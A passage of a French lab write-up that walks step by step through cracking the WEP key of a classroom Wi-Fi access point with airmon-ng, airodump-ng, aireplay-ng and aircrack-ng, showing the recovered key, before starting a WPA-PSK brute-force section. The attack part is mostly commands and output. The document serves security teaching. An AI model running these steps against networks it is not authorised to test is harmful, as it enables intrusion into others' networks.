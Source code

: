 ```
airmon-ng start wlan0mon
```

* Lancer une écoute de tous les paquets Wifi qui circulent afin de déterminer les paramètres du réseau Wifi à attaquer :
```
airodump-ng wlan0mon
```
Récupérer les informations suivantes :  
&ensp; &rarr; BSSID	- 04:DA:D2:9C:50:53  
&ensp; &rarr; Canal	- 3  
&ensp; &rarr; SSID	- cracotte04

* Réaliser un test d'injection sur le point d'accès pour vérifier que la distance entre la carte Wifi et le point d'accès est suffisante :
```
aireplay-ng -9 -e cracotte04 -a 04:DA:D2:9C:50:53 wlan0mon
```
La commande doit retourner un pourcentage proche de 100% pour réaliser l'opération.

Il faut désormais lancer deux opérations en parallèle :  
&ensp; &rarr; Cibler le point d'accès avec `airodump-ng` pour capturer les vecteurs d'initialisation nécessaires au cassage de la clef WEP  
&ensp; &rarr; Associer la carte Wifi et le point d'accès avec `aireplay-ng` (réalisé par des cartes Raspberry Pi dans la salle de TP)

* Récupérer les vecteurs d'initialisation (VI) pour l'algorithme de cassage :
```
airodump-ng -c 3 --bssid 04:DA:D2:9C:50:53 -w output wlan0mon
```
Les VI générés sont enregistrés dans les fichiers `output*`

* Associer la carte Wifi et le point d'accès (relancer si la commande s'arrête) :
```
aireplay-ng -1 0 -e cracotte04 -a 04:DA:D2:9C:50:53 -h 40:a5:ef:05:9e:47 wlan0mon
```
Le paramètre `-1` permet d'effectuer de fausses authentifications dont le délai entre les demandes est `0`.  
Pour cela, il est nécessaire de spécifier le BSSID de la carte Wifi utilisée pour le cassage.

Après un certain temps, un nombre suffisant de VI (entre 30k et 50k pour de 'Data' récupérées) a été capturé et la clef WEP peut alors être cassée à l'aide des fichiers `output*`.

* Casser la clef WEP du point d'accès :
```
aircrack-ng -b 04:DA:D2:9C:50:53 output*.cap
```

```
KEY FOUND! [ 21:34:56:78:9A:BC:05:CB:A9:87:65:43:21 ] 
Decrypted correctly: 100%
```

## Cassage du mot de passe WPA-PSK par force brute

* Vérification du nom de la carte Wifi :
```
airmon-ng
```
La carte Wifi se nomme `wlx40a5ef059e47`.
